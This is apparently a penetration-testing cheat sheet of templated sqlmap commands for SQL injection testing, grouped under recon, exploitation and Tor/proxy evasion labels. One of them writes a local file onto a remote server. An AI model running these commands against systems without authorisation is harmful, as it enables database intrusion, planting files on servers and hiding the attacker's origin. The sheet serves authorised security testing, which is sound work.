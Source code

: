 # [Exploitation] Write local file to remote path (privs required) --sqlmap
sqlmap -u "<url>" --file-write="<local_path>" --file-dest="<remote_path>" --batch


# [Recon] Send POST data (application/x-www-form-urlencoded) --sqlmap
sqlmap -u "<url>" --data="<k1>=<v1>&<k2>=<v2>" --batch

# [Recon] JSON body (set header) --sqlmap
sqlmap -u "<url>" --data='<json_body>' -H "Content-Type: application/json" --batch

# [Recon] Test a specific POST parameter --sqlmap
sqlmap -u "<url>" --data="<k1>=<v1>&<k2>=<v2>" -p "<param>" --batch

# [Recon] Add cookies --sqlmap
sqlmap -u "<url>" --cookie="<k>=<v>; <k2>=<v2>" --batch

# [Recon] Add custom headers --sqlmap
sqlmap -u "<url>" -H "Authorization: Bearer <token>" -H "X-Forwarded-For: <ip>" --batch

# [OPSEC/Evasion] Use proxy (e.g., Burp at 127.0.0.1:8080) --sqlmap
sqlmap -u "<url>" --proxy="http://127.0.0.1:8080" --batch

# [OPSEC/Evasion] Use Tor SOCKS5 (ensure Tor is running) --sqlmap
sqlmap -u "<url>" --tor --tor-type=socks5 --tor-port=<9050> --batch

# [OPSEC/Evasion] Use HTTP Basic auth --sqlmap
sqlmap -u "<url>" --auth-type=Basic --auth-cred="<user>:<pass>" --batch

# [OPSEC/Evasion] Force HTTPS (ignore mixed-content issues) --sqlmap
sqlmap -u "<url>" --force-ssl --batch


# [OPSEC/Evasion] Increase threads for speed (noisy) --sqlmap
sqlmap -u "<url>" --threads=<n> --batch
